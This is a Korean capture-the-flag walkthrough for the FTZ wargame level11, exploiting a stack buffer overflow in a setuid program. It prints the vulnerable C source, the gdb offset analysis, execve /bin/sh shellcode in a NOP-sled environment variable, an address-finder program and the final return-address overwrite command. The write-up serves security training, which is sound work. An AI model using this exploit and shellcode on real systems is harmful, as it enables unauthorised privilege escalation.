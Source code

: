# FTZ level11

ls 명령어를 사용해서 무엇이 있는지 확인해 보자.

__attackme , hint , public_html , tmp__ 

일단은 cat hint 명령어를 사용하여 힌트를 확인해 보자.  

```
#include <stdio.h>
#include <stdlib.h>
 
int main( int argc, char *argv[] )
{
	char str[256];

 	setreuid( 3092, 3092 );
	strcpy( str, argv[1] );
	printf( str );
} 
```

코드가 나오는데 str에 [256]버퍼를 담고 __setreuid( 3092, 3092 );__ setuid 설정 strcpy로 인자를 복사해 str에 넣어 출력하는 코드이다.  

이것은 버퍼오버플로우 문제이다. __strcpy__ 함수에는 큰 취약점이 하나 존재하는데 이 함수는 NULL문자를 만나기 전까지의 문자열을 복사한다. 하지만 복사하는 분자열의 길이를 검사하지 않는다. 그것을 이용하여 BOF를 하는 문제이다.

그럼 return address 까지의 버퍼를 찾아야 하기 때문에 gdb를 이용할 것이다.

___

gdb를 확인해보면 중간 코드에 

```
0x08048499 <main+41>:	lea    eax,[ebp-264]
0x0804849f <main+47>:	push   eax
0x080484a0 <main+48>:	call   0x804835c <strcpy>
```

이러 코드가 보일 것이다. 잘 생각해보면 버퍼가 코드에 비해 8더 많다는 것을 확인 할 수 있을 것이다. 8은 메모리 보호 기법에 의한 더미이다.

__메모리 보호 기법에 잠깐 설명하면 운영 체제에서 실행하고 있는 프로세스가 자신에게 할당되지 않은 영역의 메모리에 접근하는 것이 메모리 보호의 주된 목적이다.__

__이를 통해 프로세스 내의 버그가 다른 프로세스의 동작에 영향을 미치는 것을 예방하며 악성 소프트웨어가 시스템에서 허가되지 않은 접근 권한을 갖고 시스템에 영향을 끼치는 것을 막아준다.__

그럼 return address는 어디에 있을까?

| str [264]      | 할당된 버퍼이다. |
| -------------- | ---------------- |
| ebp            | base pointer     |
| return address | 여기가 그곳이다. |

조잡하지만 위를 잠깐 보자. 각 한 칸을 4바이트씩 차지 한다. 그럼 주소는 268이후에 있지 않을까?



___

이제 한번 시작해 보자.

NOP를 이용하여 풀것이기 때문에 환경변수를 이용할 것이다.

__NOP(0x90)은 어셈블리 언어로 아무것도 하지 않는 명령어이다. 그래서 NOP으로 쉘 코드의 앞뒤를 감싸게 되면 buf의 정확한 주소가 아닌 근사값의 주소여도 결국 쉘 코드가 실행될 수 있게된다.__

```
export EGG=`python -c 'print "\x90" * 1000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

환경변수에 쉘코드를 집어 넣고 넉넉하게 NOP를 1000번 입력할것이다. 

return address에는 쉘 코드가 아닌 주소가 들어가야 해야하다. 그러니 아주 짧은 코드를 짤 것이다.

cd tmp 명령어로 들어가자 tmp에서 코드를 짜보자

```
#include <stdio.h>

int main() {
        printf("%p\n", getenv("EGG"));
}
```

이런 씩의 코드이다. __getenv__ 함수는 환경 변수의 값을 가져오는 함수이다.

gcc를 이용하여 컴파일 후 실행을 해보면 주소값이 나온다.

나의 주소값은 __0xbffff4b4__이런게 나왔다. 메모리에 저장 되는 주소가 무작위이다 보니까 다 똑같이 나올 수 없다. 이제 대입만 하면 끝이 난다.

___

자 이제 원래 home으로 돌아와서 attackme 인자에 대입을 해보자.

```
./attackme `python -c 'print "A" * 268 + "\xb4\xf4\xff\xbf"'`
```

__"A" * 268__ 이부분은 버퍼와 ebp를 덮기 위해 아무 문자열이나 넣어준것이고 그 이후 return address에 쉘코드 주소값을 리틀 엔디안으로 넣어주면 쉘이 실행이된다. 만약 잘 모르겠다면 쉘 실행이후 __whoami__ 명령을 입력하면     level12라고 나온다. 

이제 my-pass 명령을 입력하면 __Level12 Password is "it is like this".__ 라면서 패스워가 나타난다.

